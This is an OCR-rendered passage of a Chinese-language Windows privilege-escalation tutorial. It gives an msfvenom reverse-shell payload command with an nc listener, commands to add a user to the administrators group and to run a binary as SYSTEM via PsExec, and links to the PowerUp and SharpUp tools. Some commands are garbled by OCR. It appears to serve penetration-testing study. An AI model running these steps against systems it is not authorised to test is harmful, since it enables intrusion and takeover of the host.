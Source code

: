 访问 Windows 中某些资源的权限由该资源的访问控制列表 （ACL） 控制

每个 ACL 由零或更多访问控制条目(ACEs)组成

每个ACE定义了一个主体（例如用户、组）和特定的访问权限。

0x02 管理员权限
==========

msfvenom
--------

如果我们可以使用管理员权限

那么我们可以进行执行msfvenom

```php
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.175.130 LPORT=4444 -f exe -o a001.exe
```

使用nc监听 进行反弹shell

RDP
---

如果RDP可用（或者我们可以启用它），我们可以将我们的低权限用户添加到管理员组，然后生成一个管理员命令

通过GUI提示

```php
net localgroup administrators <username /add
```

Administrator--&gt;System
-------------------------

要从管理用户升级到完全系统权限，可以使用Windows系统内部使用PsExec工具

<https://docs.microsoft.com/en>

```php
.\PsExec64.exe -accepteula -i -s C:\Users\user\Desktop\a002.exe
```

0x03 工具使用
=========

前言
--

主要使用

winPEAS and Seatbelt

Powerup&amp;Sharpup
-------------------

PowerUp: <https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1>

SharpUp: <https://github.com/GhostPack/SharpUp>

预编译的SharpUp: <https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/SharpUp.exe>
